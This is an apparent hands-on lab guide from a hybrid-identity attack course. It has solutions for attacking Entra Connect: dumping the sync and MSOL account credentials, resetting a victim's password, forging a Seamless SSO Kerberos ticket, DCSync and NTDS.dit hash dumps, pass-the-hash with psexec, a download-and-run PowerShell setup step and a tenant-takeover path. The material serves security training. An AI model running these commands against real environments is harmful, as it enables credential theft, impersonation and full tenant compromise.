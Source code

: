 # Lab 2 - Entra Connect Attacks
### Preparations
#### Prepare a victim user with high privileges:
in [Entra porta](https://entra.microsoft.com/#view/Microsoft_AAD_UsersAndTenants/UserManagementMenuBlade/~/AllUsers/menuId/) (login with your admin tenant creds), select ***user1*** and assign it with the **Active** (not *Eligible*) **Application Administrator** role



# Instructions
From this point on you act as the adversary, without knowing the Entra / AD Creds, you have code execution as Administrator on the Entra Connect server (in our case- it's the DC VM), and you know the Entra tenant domain.

Don't go so fast for the solution.. **try first!**

# Start 

### 1. Reconnaissance
Using AADInternals, do a bit of recon to find out the the tenant ID, and if the tenant has Seamless SSO turned on..

Hint: use https://aadinternals.com/aadinternals

<details>
<summary><b>Solution</b></summary>

```powershell
Import-Module AADInternals
Invoke-AADIntReconAsOutsider -DomainName YOURDOMAIN.onmicrosoft.com
```
</details>


### 2. Dumping and Extracting Entra Connect credentials:
Now that you've got basic info, get the credentials of the Sync and MSOL accounts.

<details>
<summary><b>Solution</b></summary>

Execute in powershell:

```powershell
Get-AADIntSyncCredentials
```
keep the creds aside :)
</details>

### 3. Finding a target (victim) user to attack
So far you've obtained:
1. Tenant ID + domain
2. Sync_xx account credentials

In order to move laterally to the cloud, we should find a synced user that we can take over...


<details>
<summary><b>Hint 1</b></summary>

See which users are Active Directory users that are synced to the cloud...
</details>

<details>
<summary><b>Hint 2</b></summary>

Go the easier way:
* Use AzureAD Powershell module (https://learn.microsoft.com/en-us/powershell/module/azuread/?view=azureadps-2.0)

Go the advanced way (and learn how to use access tokens):
1. Use AADInternals to get an access token for AAD Graph
2. Use AzureAD Powershell module and connect using this token (https://learn.microsoft.com/en-us/powershell/module/azuread/?view=azureadps-2.0)


</details>

<details>
<summary><b>Hint 3</b></summary>

Advanced way commands:
1. ```Get-AADIntAccessTokenForAADGraph```
1. ```Connect-AzureAD -AccountId $SyncUserUPN -TenantId $tenantId -AadAccessToken $at```

if you went the easy way - figure it out yourself.
</details>

<details>
<summary><b>Hint 4</b></summary>

Using AzureAD Powershell module, list the users, and try to see which one has a powerful role..
</details>


<details>
<summary><b>Solution</b></summary>

Login using dumped Sync_XX account:
```powershell
# Prompt for credentials and retrieve & store access token to cache
# Enter your dumped Sync_XX account creds!
$tenantId = "YOUR_TENANT_ID"
$at = Get-AADIntAccessTokenForAADGraph

# method 1: 
$userUPN = "Sync_xxx@YOURDOMAIN.onmicrosoft.com" # change the username
Connect-AzureAD -AccountId $userUPN -TenantId $tenantId -AadAccessToken $at

# method 2:
Connect-AzureAD -AadAccessToken $at -TenantId $tenantId -AccountId "1b730954-1685-4b74-9bfd-dac224a7b894" # "Azure Active Directory PowerShell" app id,
```

Enumerate users:
```powershell
# this is just a fancy, oneliner script to list on-premise, synced users with their roles
$onpremSyncedUsers = Get-AzureADUser -All $true | Where-Object { 
    $_.OnPremisesSecurityIdentifier -ne $null 
} 
$onpremSyncedUsers | ForEach-Object { 
    $user = $_; 
    Get-AzureADDirectoryRole | ForEach-Object { 
        $role = $_;
        Get-AzureADDirectoryRoleMember -ObjectId $role.ObjectId | Where-Object { $_.ObjectId -eq $user.ObjectId } | Select-Object @{Name='UserPrincipalName';Expression={$user.UserPrincipalName}}, @{Name='OnPremisesSecurityIdentifier';Expression={$user.OnPremisesSecurityIdentifier}}, @{Name='ImmutableId';Expression={$user.ImmutableId}}, @{Name='Role';Expression={$role.DisplayName}} 
    } 
} | Format-Table -Wrap -AutoSize
```

Did you find it? should be ```user1```.
</details>


### 4. Reset Password Attack
#### Reset the victim user's Entra password

<details>
<summary><b>Hint 1</b></summary>

Using AADInternals, reset that user's password and then login on its behalf.
</details>

<details>
<summary><b>Hint 2</b></summary>

Use Set-AADIntUserPassword command
</details>

<details>
<summary><b>Solution</b></summary>

```powershell
Set-AADIntUserPassword -SourceAnchor "IMMUTABLE_ID" -Password "MYPASS" -Verbose
```
Now, open https://entra.microsoft.com in the browser **in incognito** and login as that user *VICTIM_USER@YOURDOMAIN.onmicrosoft.com* with the new password :)


*This method does not bypass MFA
</details>


#
### 5. Silver Ticket (Seamless SSO) Attack

Set the domain:
```powershell
$domain = "MYDOMAIN" # change to your domain name WITHOUT the ".onmicrosoft.com" part 
```

#### 1. Get AZUREADSSOACC computer account's hash:
```powershell
# Option 1: Get-ADReplAccount
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain $domain -Server dcvm # take the "NTHash" part

# Option 2: mimikatz
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$"
    
# Option 3: Dump NTDS.dit and registry:
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q # Now the AD and registry are dumped to C:\temp and we can extract the password hash using DSInternals.
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hex # Get the password's hash of AZUREADSSOACC
# remote the empty spaces and keep the hash
```

Set the hash:
```powershell
$hash = "CHANGEME"
```
#### 2. Find victim user to impersonate

```powershell
# Option 1: query Entra + get roles
Import-Module AzureAD
Connect-AzureAD # use the dumped Entra Connect creds (Sync_XXX account)


# Option 2: query AD (w/o getting Entra roles)
Get-ADReplAccount -SamAccountName 'VICTIM_USER' -Domain $domain -Server dcvm # take the "Sid:" part
```

Set the victim user's SID:
```powershell
$victimUserSid = "S-1-5-21-CHANGEME" # set the sid of the user you wish to impersonate
```

#### 3. Perform the attack
```powershell
# generate kerberos ticket
$kerberos=New-AADIntKerberosTicket -SidString $victimUserSid -Hash $hash

# get an access token for that user
$at = Get-AADIntAccessTokenForMSGraph -KerberosTicket $kerberos -Domain $domain".onmicrosoft.com"
# if you get AADSTS50079 error, it might mean you have a conditional access policy in your Entra tenant named "Security info registration for Microsoft partners and vendors" that blocks this login, you need to reinstall the entire lab from scratch and associate it yo your new tenant

# start exploring what you can do in the tenant using MS Graph API!
$MaximumFunctionCount = 8192 # bypass powershell's scope memory limit
Import-Module Microsoft.Graph.Users
$securedAT = ConvertTo-SecureString $at -AsPlainText -Force
Connect-MgGraph -AccessToken $securedAT

Get-MgContext

Get-MgUser
#SDK Docs: https://aka.ms/graph/sdk/powershell/docs
```
if you took the easy way earlier, take the hard one now!


#
### 6. Pass The Hash using Entra Connect's MSOL Account Attack

Your goal: using the MSOL account creds, perform pass the hash attack, and open cmd.exe on DC VM, using another domain admin user (that is *not* ``user1``). Do it from **Win 11 VM**.

* Use ``c:\lab\mimikatz`` and [impacket-psexec](https://github.com/ropnop/impacket_static_binaries/releases/download/0.9.22.dev-binaries/psexec_windows.exe)

<details>
<summary><b>Solution</b></summary>

```powershell

# find a domain admin user to target
Get-ADGroupMember 'domain admins' | select name,samaccountname

# login in the context of MSOL account
runas /user:YOUDOMAIN\MSOL_xxxxxx cmd.exe

# dump rootuser's hash
C:\lab\mimikatz\x64\mimikatz.exe "lsadump::dcsync /user:rootuser"

# from a new cmd:

.\psexec_windows.exe -hashes aad3b435b51404eeaad3b435b51404ee:<NTLM_HASH> YOUDOMAIN/rootuser@10.0.0.10 cmd

ipconfig # see the IP is of DC VM

```
</details>


### 7. Tenant Takeover Challenge (Bonus, for really advanced students)
In this last exercise, your goal is to takeover the entire tenant, by getting the 'Global Administrator' role over a compromised user.

#### Preparations
- Execute the following powershell, and authenticate using your **Entra admin credentials**.
- **DO NOT look into the script** as it will reveal the solution.


    ```powershell 
    Set-ExecutionPolicy -ExecutionPolicy Unrestricted -Scope Process -Force

    Invoke-WebRequest -Uri "https://raw.githubusercontent.com/shackcrack007/hybrid-attacks-course-template/refs/heads/main/labs%20(for%20course%20sessions%2C%20not%20part%20of%20setup)/lab-2-entra-connect-attacks/lab-2-last-exc-prepartions.ps1" -OutFile "C:\\prepareLab2LastExc.ps1"; `
    & "C:\\prepareLab2LastExc.ps1" `
    -DomainName YOURDOMAIN.onmicrosoft.com # the one listed here https://admin.microsoft.com/#/Domains
    ```


<details>
<summary><b>Solution</b></summary>

**Once you're done, remove any role / permissions you've granted along the way.**

There's an app named "My backup app"
1. ```user1``` is an Owner of that app, which means he can add secrets to it
1. authenticate as that user (after you've compromised it using the Sync__xx account)
1. create a new secret for that app or its service principal
1. use that secret to authenticate as that app
1. the app has privileged permissions, use them to grant your user (or a new user) a global admin role
</details>

#

###  Good Job! Summarize the attack paths you just took and the attacks you've learned!
